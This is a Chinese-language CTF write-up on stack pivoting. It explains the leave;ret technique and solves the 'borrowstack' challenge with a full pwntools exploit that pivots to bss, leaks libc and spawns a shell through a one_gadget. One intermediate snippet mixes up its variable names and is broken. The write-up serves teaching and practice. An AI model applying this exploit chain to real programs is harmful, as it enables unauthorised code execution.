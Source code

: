 # 栈迁移（新）

> 前面刚总结完的笔记感觉不太完善，然后再做了题后，理解更加透彻，重新整理一下。

## 介绍

当存在栈溢出且可溢出长度不足以容纳 payload 时，可采用栈迁移。一般这种情况下，溢出仅能覆盖 ebp 、 eip 。因为原来的栈空间不足，所以要构建一个新的栈空间放下 payload ，因此称为栈迁移。

## 大概原理

首先栈执行命令是从 esp 开始向 ebp 方向逐条执行，也就是从低地址到高地址逐条执行。触发栈迁移的关键指令：``leave|ret``，等效于``mov esp ebp; pop ebp; ret;``，作用是将 ebp 赋值给 esp ，并弹出 ebp 。

正常情况下退出栈时，esp 指向 ebp 所在位置，ebp 指向 ebp 所存储的位置。等同于执行一个 leave ret 的效果。

![](_images/栈迁移/20200311172814.png)

栈迁移：通过直接控制 ebp 的值，借助 leave 指令，间接控制  esp 的值。从上图可见，正常退出 esp 会指向原 ebp 位置。如果我们覆盖 eip 再次执行 leave 指令，esp 将会指向 0x400a0 的位置（ebp 将指向当前 ebp 存储的地址），也就是将栈迁移到 0x400a0 。通过提前布置 ebp 中的地址和调用 leave 指令，可完成连续多次栈迁移。

在上图中也可以看出，栈迁移的地址信息被提前写入，所以明确并提前计算栈被迁移到的内存地址，是栈迁移的关键。当然也是有骚操作，可不提前写入的，详情看下面题目分析。

在我看来，栈迁移不能算是在内存地址中创建了一个完整的栈结构，而是复刻了栈从高地址到低地址依次执行命令的功能。因为一般情况下多次栈迁移，ebp 地址与 esp 地址关系比较奇怪，ebp 地址会比 esp 低，特别是最后一次栈迁移，ebp 的值不再重要，可被指向到奇奇怪怪的地址，这不相当于没有 ebp 的栈么。

## 题目

> 题目来自 i春秋新春战役 borrowstack

### 题目介绍

只打开 NX 保护的64 位程序。程序内容为：提示输入两次。

```shell
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=3d3f6ef2905eff37d82ebb1bfa6e7c4e75384eff, not stripped
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

### 漏洞

第一处提示输入存在溢出，可溢出 0x10 ，仅可以覆盖 ebp、eip 。第二处输入允许向 bank 写入 0x100 字节，bank 位于 bss 段头。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-60h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  puts(&s);
  read(0, &buf, 0x70uLL);//可溢出0x10字节
  puts("Done!You can check and use your borrow stack now!");
  read(0, &bank, 0x100uLL);
  return 0;
}
```

这条题目目的就是引导我们将栈迁移到 bss 段，并且为我们预留了写入 bss 段的函数。

这里插一嘴，如果没有这个预留函数，但是可以溢出更长又不足够放下 payload（如：0x30）怎么解决？控制 eip 构建一个写入函数，然后才再调用指令 leave 。（该套路题目：[HITCON-Training-master lab6](https://github.com/scwuaptx/HITCON-Training)）

### 利用

最最最普通的，没有骚操作的栈迁移题目（也就是本题），会进行两次栈迁移。第一次迁移泄露 libc 基地址，并且为第二次执行 one_gadget 之类 get shell。

**大概攻击流程**

1. 栈溢出控制 ebp 为第一次栈迁移做准备，控制 eip 再次执行 leave 指令。
2. 写入第一次迁移的栈数据，功能需要有：泄露 libc 基地址，为第二次迁移做准备。
3. 第二次迁移的栈执行 one_gadget 。



栈溢出的话问题不大，在第一次 read 写入 0x60 就到 ebp ，然后按需覆盖就可以。比如说我决定将第一次栈迁移到 bank+0x90 ，那么 ebp 就覆盖为 bank+0x90 。调准地址明确了，下一步就需要触发栈迁移了，也就是在执行一次 leave 指令，通过覆写 eip 为 leave 。(bank地址为0x601080 ， leave地址为0x400699)

```python
payload_0 = 'a'*0x60
payload_0 += bank+0x90
payload_0 += leave
```



第一次栈迁移外部准备完成，就需要向 bank+0x90 写入需要执行的代码。这道题是利用的是第二次 read 输入 stack 1 数据。前面说过，需要进行两次迁移，所以在输入 stack 1 数据要考虑第二次栈迁移的地址，我选择 bank+0x60 。

在 stack 1 需要泄露出 libc 基地址，写入stack 2 数据。泄露地址就选择一个函数真实地址输出并计算偏移，然后调用 main 函数中的 read2 写入 stack 2 ，因为顺序执行，因此还执行了一次 leave （即 main 函数从 read2 开始运行一遍），触发第二次栈迁移。

```python
payload_1 = '\0'*0x90		#填充到bank+0x90
payload_1 += p64(bank+0x60)	#stack2地址
payload_1 += p64(pop_rdi)	#传参
payload_1 += p64(puts_got)	#泄露函数
payload_1 += p64(puts_plt)
payload_1 += p64(0x400680)	#main中的read2&leave
```



stack 1 准备完成，并且为 stack 2 预留写入函数，接下来就是处理并写入 stack 2 。因为这个栈已经是最后一个栈，所以不需要关心 ebp 的值，我给它赋值 0xdeadbeef 。

如果遇到有的题目需要3 次、 4 次等多次迁移，就将 ebp 赋值为下一次迁移的地址，直到最后一次。

```python
libc_base=u64(p.recv(6)[:].ljust(8,'\0'))-libc.symbols['puts']					#泄露libc基地址
payload = 'a'*0x60						#填充到bank+0x60
payload_2 += p64(0xdeadbeef)			#ebp值
payload += p64(one_gadget+libc_base)	#one_gadget
p.sendline(pay)

p.interactive()
```

填充跳转示意图：

![](_images/栈迁移/20200311153802.png)

完整 exp 

```python
from pwn import *

context.log_level = 'debug'
p = process("./borrowstack")
elf = ELF("./borrowstack")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

bank = 0x601080
pop_rdi = 0x400703
leave = 0x400699
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
one_gadget = 0xf02a4

payload_0 = 'a'*0x60
payload_0 += p64(bank+0x90) + p64(leave)
p.recvuntil('want')
p.send(payload_0)

payload_1='\0'*0x90+p64(bank+0x60)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)
payload_1+=p64(0x0400680)
p.sendafter('now!\n',payload_1)

libc_base=u64(p.recv(6)[:].ljust(8,'\0'))-libc.symbols['puts']
info("one:"+hex(libc_base+one_gadget))

payload_2='a'*0x60+p64(0xdeadbeef)+p64(one_gadget+libc_base)
p.sendline(payload_2)

p.interactive()

```

前面提到过，多次连续栈迁移需要提前明确每次栈空间地址。就好像上面那题目，stack 2 地址在写入 stack 1 数据的一并写入。其实 stack 2 地址也可以在执行 stack 1 的时候再写入。但一定要注意：执行的命令写入位置是在 esp + 0x8 位置。

```python
payload_1 = '\0'*0x90		#填充到bank+0x90
payload_1 += '\0'*0x8		#填充（原应写入ebp）
payload_1 += p64(pop_rdi)	#传参
payload_1 += p64(puts_got)	#泄露函数
payload_1 += p64(puts_plt)

payload_1 += p64(pop_ebp)	#传参ebp
payload_1 += p64(bank+0x60)	#stack 2

payload_1 += p64(0x400680)	#main中的read2&leave
```

32 位是栈传参；64 位前 6 个参数是寄存器传参，后面的栈传参 [Link](http://abcdxyzk.github.io/blog/2012/11/23/assembly-args/) 。

## 总结

栈迁移可以用在栈溢出但是空间不足的情况下，构建虚拟栈空间。

栈迁移通过直接直接控制 ebp 来间接控制 esp ，实现关键指令（函数）为 leave 或其他可以将 ebp 赋值给 esp 的指令。

栈迁移构建的虚拟栈，不算是一个完整的栈，更像是栈的顺序执行结构，因为 esp 与 ebp 之间关系可能会异于正常。